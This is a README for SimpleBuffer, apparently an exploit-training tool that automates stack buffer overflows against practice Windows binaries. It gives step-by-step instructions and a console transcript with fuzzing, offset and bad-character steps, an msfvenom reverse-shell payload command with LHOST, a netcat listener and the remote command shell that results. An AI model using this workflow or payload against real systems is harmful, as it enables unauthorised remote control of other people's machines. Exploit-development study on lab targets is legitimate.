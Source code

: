 # SimpleBuffer
This script minimizes the time and effort to get your buffer overflow shell in few simple clicks.

`Usage: simplebuffer.py`

the script was tested on the follwoing samples:
* [brainpan.exe](https://github.com/freddiebarrsmith/Buffer-Overflow-Exploit-Development-Practice/tree/master/brainpan) by freddiebarrsmith
* [vulnserver.exe](https://github.com/stephenbradshaw/vulnserver) by stephenbradshaw
* [dostackbufferoverflowgood.exe](https://github.com/justinsteven/dostackbufferoverflowgood) by justinsteven

## Features:
* Fuzzing.
* Getting offset value.
* Supports prefix and postfix.
* Generates pattern
* Sends bad character.
* Auto assemble the paylaod.
* Auto generate an msfvenom reverse shell shellcode including nops.
* Sets up a netcat listener 
* Sends the payload to the target machine

## How to:
### Phase 1:
1. In order for the script to work, you need to get the return value using mona modules along with immunity debugger.
2. once you have the return value convert it to little endian format (ex: \xf3\x12\x17\x31) enter it inside the script in 'module' variable along with the target IP and port. *Note: if your executable requires a prefix or postfix enter it as well.*
3. Run immunity debugger in Windows 32 bit and load the executable file and press F9.
4. From your Kali, run the script, the script will start fuzzing until the program crashes.
5. In immunity debugger, check the EIP value it should read 41414141.
6. Relaod the executable in immunity debugger by pressing ctrl+F2, then go back to the script and press enter.
7. The value of the EIP should change, copy it and paste it in the script, then press ENTER.
8. The script will send badchars, find if any badchars are present. 
9. check for any bad character, if none type "\x00" or \x00 + badchars.
10. Finally, reload the executable in immunity debugger then go back to the script and press Enter, you should now get a shell. in case you did not get a shell add the offset value in the script and run it again.

### Phase 2:
if you got a shell working on your local envirment machine, you can now add your offset value in the script and change the IP to your target machine. the script will skip all previous processes and start generating the shellcode and connect to the target machine. 

## Usage:

`Usage: simplebuffer.py`
```
root@Kali:~/SimpleBuffer# python simplefuzzer.py 
Starting SimpleBuffer at 18:31:14
SimpleBuffer report for 10.0.2.5
[+] Connected to host successfully
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes

[!] Possible overflow detected at 800 bytes                                                               
[!] The EIP value should now be 41414141
[!] Reload the program to get the return value and then press Enter : 
[!] Connecting ...
[+] Connected to host successfully
[!] Sending Pattern
[*] Enter the value of the EIP : 35724134
[!] Exact match found at 524
[!] Reload the program to get the badchars and then press Enter : 
[!] Connecting ...
[+] Connected to host successfully
[!] Sending badchars ...
[!] Your EIP value should now be 42424242
[!] Enter badchars or Type "x00" if no badchars found: \x00
[!] Generating shellcode ...
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.3 LPORT=4444 EXITFUNC=thread -f raw -a x86 --platform windows -n 32 --smallest -b \x00                                                                           
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=55, char=0x78)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
Attempting to encode payload with 1 iterations of x86/countdown
x86/countdown failed with Encoding failed due to a bad character (index=12, char=0x30)
Attempting to encode payload with 1 iterations of x86/fnstenv_mov
x86/fnstenv_mov succeeded with size 346 (iteration=0)
Attempting to encode payload with 1 iterations of x86/jmp_call_additive
x86/jmp_call_additive succeeded with size 353 (iteration=0)
Attempting to encode payload with 1 iterations of x86/xor_dynamic
x86/xor_dynamic failed with Encoding failed due to a nil character
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed failed with Encoding failed due to a bad character (index=32, char=0x30)
Attempting to encode payload with 1 iterations of x86/alpha_upper
x86/alpha_upper failed with Encoding failed due to a bad character (index=24, char=0x30)
Attempting to encode payload with 1 iterations of x86/nonalpha
x86/nonalpha failed with Encoding failed due to a bad character (index=50, char=0x30)
Attempting to encode payload with 1 iterations of x86/nonupper
x86/nonupper failed with Encoding failed due to a nil character
x86/fnstenv_mov chosen with final size 346
Successfully added NOP sled of size 32 from x86/single_byte
Payload size: 378 bytes

[+] Shellcode Generated !
[!] Reload the program get a shell or press ENTER if you added required values:
[!] Connecting ...
[+] Connected to host successfully
[!] Sending Payload
listening on [any] 4444 ...
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.5] 49820
Microsoft Windows [Version 10.0.19042.631]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\Windows10\Desktop>
```

### Notes:
- make sure pattern_create.rb is located in `/usr/share/metasploit-framework/tools/exploit/`
- scripts will run on <= Python 2.7
- the script uses eth0 as default network interface, change it if you have different network interface name.

Devoleped by Muhannad

